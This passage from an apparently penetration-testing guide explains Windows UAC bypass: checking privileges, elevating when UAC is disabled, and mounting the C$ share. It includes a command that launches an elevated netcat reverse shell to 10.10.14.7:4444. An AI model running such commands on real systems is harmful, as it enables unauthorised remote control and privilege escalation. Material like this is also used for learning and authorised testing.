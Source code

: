 All this information can be gathered using the **metasploit** module: `post/windows/gather/win_privs`

You can also check the groups of your user and get the integrity level:

```
net user %username%
whoami /groups | findstr Level
```

## UAC bypass

{% hint style="info" %}
Note that if you have graphical access to the victim, UAC bypass is straight forward as you can simply click on "Yes" when the UAS prompt appears
{% endhint %}

The UAC bypass is needed in the following situation: **the UAC is activated, your process is running in a medium integrity context, and your user belongs to the administrators group**.

It is important to mention that it is **much harder to bypass the UAC if it is in the highest security level (Always) than if it is in any of the other levels (Default).**

### UAC disabled

If UAC is already disabled (`ConsentPromptBehaviorAdmin` is **`0`**) you can **execute a reverse shell with admin privileges** (high integrity level) using something like:

```bash
#Put your reverse shell instead of "calc.exe"
Start-Process powershell -Verb runAs "calc.exe"
Start-Process powershell -Verb runAs "C:\Windows\Temp\nc.exe -e powershell 10.10.14.7 4444"
```

#### UAC bypass with token duplication

* [https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/](https://ijustwannared.team/2017/11/05/uac-bypass-with-token-duplication/)
* [https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html](https://www.tiraniddo.dev/2018/10/farewell-to-token-stealing-uac-bypass.html)

### **Very** Basic UAC "bypass" (full file system access)

If you have a shell with a user that is inside the Administrators group you can **mount the C$** shared via SMB (file system) local in a new disk and you will have **access to everything inside the file system** (even Administrator home folder).

{% hint style="warning" %}
**Looks like this trick isn't working anymore**
{% endhint %}

```bash
net use Z: \\127.0.0.1\c$
cd C$

#Or you could just access it:
dir \\127.0.0.1\c$\Users\Administrator\Desktop
```
